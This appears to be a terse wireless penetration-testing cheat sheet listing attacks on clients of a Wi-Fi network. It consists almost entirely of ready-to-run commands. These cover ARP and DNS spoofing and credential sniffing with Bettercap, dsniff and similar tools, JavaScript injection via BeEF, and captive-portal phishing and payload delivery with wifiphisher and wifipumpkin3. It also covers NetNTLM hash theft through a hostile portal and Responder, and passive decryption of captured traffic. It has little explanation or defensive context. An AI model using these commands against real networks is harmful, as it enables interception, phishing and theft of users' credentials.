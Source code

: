 # Clients Attacks:    
##	Standard Man-in-the-Middle Attacks    
        DNS Spoofing  
        	Bettercap > dns.spoof module  
		ARP Spoofing    
		-- Not needed when client connected to rogue AP because attacker already in position of MitM    
			Bettercap > arp.spoof module    
		Credentials Sniffing    
			Bettercap > net.sniff module    
			Pcredz -i <interface> -v    
			python net-creds.py -i <interface>    
			dsniff -i <interface>    
		JS Injection    
			Bettercap > caplet beef-active    
##	Captive Portal Attack    
		Phishing (Social Engineering)    
			wifiphisher -aI <interface_rogue_AP> -eI <interface_deauthenticating> -iI <internet_interface> -p firmware-upgrade --handshake-capture handshake.pcap --essid <target_SSID> -kN    
			wifipumpkin3 --xpulp "set interface wlan0; set ssid <SSID>; set proxy captiveflask; start"    
			Add --captive-portal in eaphammer command    
			airgeddon.sh    
			fluxion.sh    
		Payload Delivery    
			wifiphisher -aI <interface_rogue_AP> -jI <interface_jamming> -p plugin_update --handshake-capture handshake.pcap -kN    
##	NetNTLM Hash Stealing    
		Hostile Portal Attack (Redirect to SMB)    
			Add --hostile-portal in eaphammer command    
			HTTP traffic redirected to SMB share on attacker's machine    
		NBT-NS/LLMNR Poisoning    
			Responder.py -I <interface> -wrf    
##	Passive Sniffing    
		Traffic Decryption    
			Wireshark (requires PSK or PMK)    
			airdecap-ng -e <ESSID> -p <passphrase> <capture_pcap>    

